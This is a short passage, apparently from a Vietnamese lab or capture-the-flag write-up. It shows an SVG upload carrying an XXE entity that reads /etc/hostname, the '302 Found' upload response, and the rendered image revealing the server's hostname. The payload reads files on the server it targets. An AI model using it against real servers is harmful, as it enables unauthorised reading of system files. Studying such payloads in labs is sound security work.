<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test[
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="200" height="200"
     xmlns="http://www.w3.org/2000/svg">

  <!-- Hình tròn -->
  <text x="10" y="50">&xxe;</text>
</svg>
```
--> `302 Found` Tải lên thành công



Khi truy web thì hiển thị hình ảnh khác



Khi truy cập hình ảnh SVG thì hiển thị nội dung của file `/etc/hostname`
--> `4aa62ae6deea`

